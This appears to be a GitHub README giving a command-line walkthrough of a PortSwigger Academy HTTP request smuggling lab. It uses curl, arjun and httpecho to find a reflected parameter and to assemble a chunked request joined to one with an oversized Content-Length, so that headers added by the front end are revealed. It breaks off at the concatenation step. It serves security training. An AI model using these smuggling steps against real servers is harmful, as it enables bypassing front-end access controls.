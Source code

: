 # Examples


The aim is to perform request smuggling from command line. The aim is not to totally replace Burp Suite but to propose another approach., with more CLi.

The following examples are an alternative to PortSwigger Burp solutions provided for the PortSwigger Burp academy. They use:
* [`httpcustomhouse`](https://github.com/ariary/HTTPCustomHouse): to simulate server behavior regarding `Content-Length` and chunk encoding
* [`httpoverride`](https://github.com/ariary/HTTPCustomHouse): to change headers of raw request for people not at ease with `sed` 
* [`httpecho`](https://github.com/ariary/httpecho): HTTP echo server echoing request exactly as it is received

Also to reproduce steps, Export an env var for the lab endpoint:
```shell
export LAB_URL=[YOUR_LAB_URL]
```

## [Exploiting HTTP request smuggling to reveal front-end request rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)


Browsing `/admin` endpoint we've got: `Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1`

We also know that:
* The front-end server adds an HTTP header to incoming requests containing their IP address. We have to find its name
* The front-end does not support chunk encoding


### I - Find a POST parameter that is reflected in response
use [`arjun`](https://github.com/s0md3v/Arjun), a tool to detect parameters for URL:
```shell
arjun -u $LAB_URL
[...]
[+] Heuristic scanner found 1 parameter: search
```

Confirm with it curl request:
```shell
curl -X POST [LAB_URL] --data "search=toto" | grep "toto" -C 10 --color
[...]                    <section class=blog-header>
                        <h1>0 search results for 'toto'</h1>
                        <hr>
                    </section>
[...]
```
Indeed, the `search` parameter is reflected in h1 tag

### II - Construct legitimate request that reflect parameters
```shell
# in one shell
httpecho -d search_legit
# in another shell
curl -X POST http://localhost:8888/ --data "search=toto" -H "Host: $LAB_URL" -H 'User-Agent:'  -H 'Accept:'
# empty headers to withdraw curl default ones
```

### III - Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal

To smuggle the request "embed" it in a normal request. The request will include a large Content-Length. As the back end use it, it will also include the first characters of the next request (which is provided by front end) **=> Added front-end headers can thus be accessible in the response 💥 **

To construct this request: construct a normal request: (always with `httpecho -d basic`)
```shell
curl -X POST http://localhost:8888/ --data "search=toto" -H "Host: [LAB_URL]" -H 'User-Agent:'  -H 'Accept:' -H 'Transfer-encoding: chunked'
# delete line to only have a 0\r\n\r\n in request, sed -i '4d' ./basic
# printf "\r\n\r\n"
```
And concatenate with the requets with a parameter but with a large `Content-Length` + w/o `Host` (~ `search_legit`):
```shell
cat basic search_legit_custom > smuggle
```
